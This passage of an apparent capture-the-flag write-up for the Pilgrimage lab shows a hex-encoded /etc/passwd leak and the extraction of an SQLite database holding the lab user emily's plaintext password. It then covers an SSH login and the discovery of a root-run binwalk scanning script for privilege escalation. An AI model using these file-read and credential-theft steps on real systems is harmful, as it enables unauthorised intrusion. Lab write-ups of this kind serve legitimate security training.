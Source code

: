 ```bash
796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69
7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c
6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a

  Date:create: 2023-08-13T15:49:37+00:00
  Date:modify: 2023-08-13T15:49:37+00:00
  Date:timestamp: 2023-08-13T15:49:37+00:00
  Signature: c7d03a3453434db9720fd67b559185125d9bdb1fe9c25c182783170e2ba6a8f6
  Tainted: False
  Elapsed Time: 0m:0.001388s
  Pixels Per Second: 6.9Mi
```

Using a converter we see the following info

![[Pasted image 20230813175538.png]]

Here we can see an useful user called emily. Going back to the code we find an useful file to extract with the exploit

```bash
function fetchImages() {
	$username = $_SESSION['user'];
	$db = new PDO('sqlite:/var/db/pilgrimage');
	$stmt = $db->prepare("SELECT * FROM images WHERE username = ?");
	$stmt->execute(array($username));
	$allImages = $stmt->fetchAll(\PDO::FETCH_ASSOC);
	return json_encode($allImages);
}
```

So repeat the process to extract `/var/db/pilgrimage` file

![[Pasted image 20230813180400.png]]

And we found emily word next to what seems to be her credentials. Trying with ssh emily:abigchonkyboi123 it succeeded. So now lets escalate privileges

With linpeas we found a continous proccess which is executing a script called malwarescan.sh

```bash
root         709  0.0  0.0   6816  2292 ?        S    Aug13   0:00 /bin/bash /usr/sbin/malwarescan.sh

emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh 
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```
